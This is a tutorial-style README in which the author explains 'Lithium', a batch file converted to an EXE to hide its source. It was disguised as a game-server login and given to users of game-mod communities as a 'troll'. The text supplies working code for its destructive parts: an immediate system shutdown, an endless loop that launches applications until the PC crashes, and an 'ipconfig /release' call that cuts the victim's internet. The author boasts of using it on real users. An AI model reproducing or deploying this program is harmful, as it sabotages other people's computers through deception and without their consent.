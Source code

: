 # Lithium Explanation/Breakdown

If it wasn't obvious already, Lithium is indeed a troll..

- [Why?](#why)
    - [How?](#how)
        - [Tutorial](#tutorial)

# Why?
I created Lithium as a way to combat users in servers like Project Rift and Project Era from asking from multiplayer. It had become a big problem to higher ups, and constant annoyance, so you know I had to take action 😈

# How?
Lithium is a 12 KB Batch file that was converted to an EXE to hide the source. Lithium has the ability to completely shut down your PC, open as many applications as it wants, and even release your IP address (meaning no internet). All of these things happen because you give it permission

# Tutorial
To start off Lithium, we need the cringe login page, but before we even start that, we need to get our Batch file set up.

```bat
@echo off
mode con lines=30 cols=80
chcp 65001
:again
cls
title Lithium Gameserver 
echo Welcome [USER], please login:
echo.
echo ██╗     ██╗████████╗██╗  ██╗██╗██╗   ██╗███╗   ███╗
echo ██║     ██║╚══██╔══╝██║  ██║██║██║   ██║████╗ ████║
echo ██║     ██║   ██║   ███████║██║██║   ██║██╔████╔██║
echo ██║     ██║   ██║   ██╔══██║██║██║   ██║██║╚██╔╝██║
echo ███████╗██║   ██║   ██║  ██║██║╚██████╔╝██║ ╚═╝ ██║
echo ╚══════╝╚═╝   ╚═╝   ╚═╝  ╚═╝╚═╝ ╚═════╝ ╚═╝     ╚═╝
echo.
```
The first line is ``@echo off``, this command is used to disable the echoing, or displaying on the screen, of characters entered at the keyboard. After that, we have the ``mode con lines=30 cols=80`` command. This will all depend on you, as it just resizes the command prompt window. Then we have ``chcp 65001``, which will come in handy later on. It helps the command prompt format the ASCII art correctly.

The ``::again`` command declares a new "page" sort of, or a way to divide different areas of code. ``title`` is pretty self explanatory, it sets the window title. The ``echo`` commands (in this case) declare text that needs to be show on the screen. The lines just have ``echo .`` are used as a blank white space, and the rest is the ASCII art. You can generate ASCII art [here](https://patorjk.com/software/taag/).

```bat
:: @echo off
:: mode con lines=30 cols=80
:: chcp 65001
:: again
:: cls
:: title Lithium Gameserver 
:: echo Welcome [USER], please login:
:: echo.
:: echo ██╗     ██╗████████╗██╗  ██╗██╗██╗   ██╗███╗   ███╗
:: echo ██║     ██║╚══██╔══╝██║  ██║██║██║   ██║████╗ ████║
:: echo ██║     ██║   ██║   ███████║██║██║   ██║██╔████╔██║
:: echo ██║     ██║   ██║   ██╔══██║██║██║   ██║██║╚██╔╝██║
:: echo ███████╗██║   ██║   ██║  ██║██║╚██████╔╝██║ ╚═╝ ██║
:: echo ╚══════╝╚═╝   ╚═╝   ╚═╝  ╚═╝╚═╝ ╚═════╝ ╚═╝     ╚═╝
:: echo.
set /p user=Enter username: 
echo.
set /p pass=Enter password: 
if %user% == admin if %pass% == admin goto main
echo Authentication failed, login invalid..
timeout 2
goto again
```

The ``/p`` switch allows you to set the value of a variable to a line of input entered by the user. Displays the specified promptString before reading the line of input. Basically, we're asking the user for the set username and password. ``if %user% == admin if %pass% == admin goto main`` is used to check if the input matches the requirements. If it does, the user goes on. If it doesn't, the user is taken back to ``:again`` which is the login page.

Now, we're going to pass all of the boring shit and get straight to the havoc on how I was able to shut off the computer, releas IPs, and application bomb all without admin permissions.

```bat
shutdown.exe /s /t 00
```
This shutdown command is used to shut down the local computer immediately since we designated a time of zero with the shutdown /t option. You could easily change the zero in this command to 10 to delay the shutdown for several seconds, 60 to make the computer shut down in one minute, etc. Since it's an EXE and it's a command, there are no admin permissions needed.

```bat
:auto
cls
echo.
echo ██╗     ██╗████████╗██╗  ██╗██╗██╗   ██╗███╗   ███╗
echo ██║     ██║╚══██╔══╝██║  ██║██║██║   ██║████╗ ████║
echo ██║     ██║   ██║   ███████║██║██║   ██║██╔████╔██║
echo ██║     ██║   ██║   ██╔══██║██║██║   ██║██║╚██╔╝██║
echo ███████╗██║   ██║   ██║  ██║██║╚██████╔╝██║ ╚═╝ ██║
echo ╚══════╝╚═╝   ╚═╝   ╚═╝  ╚═╝╚═╝ ╚═════╝ ╚═╝     ╚═╝
echo.
echo Enabling server auto-restart..
echo.
start mspaint

start notepad

start write

start cmd

start explorer

start control

start calc

goto auto
```

Pretty much, this is a simple application bomb. It starts all these programs over and over, then restarts just to do the same thing until your PC eventually crashes.

```bat
ipconfig /release >nul
```
This is probably the most worrying command out of them all. First, ipconfig /release is executed to force the client to immediately give up its lease by sending the server a DHCP release notification which updates the server's status information and marks the old client's IP address as "available". Then, the command ipconfig /renew is executed to request a new IP address.

In stupid terms, it gives up your IP, and without your IP, you can't really use your internet. To get a new IP, you have to type ``ipconfig /renew``. The ``>nul`` command after it is to anonymize it



So yes, Lithium was a troll. I will provide the source too so you can read it for yourself.
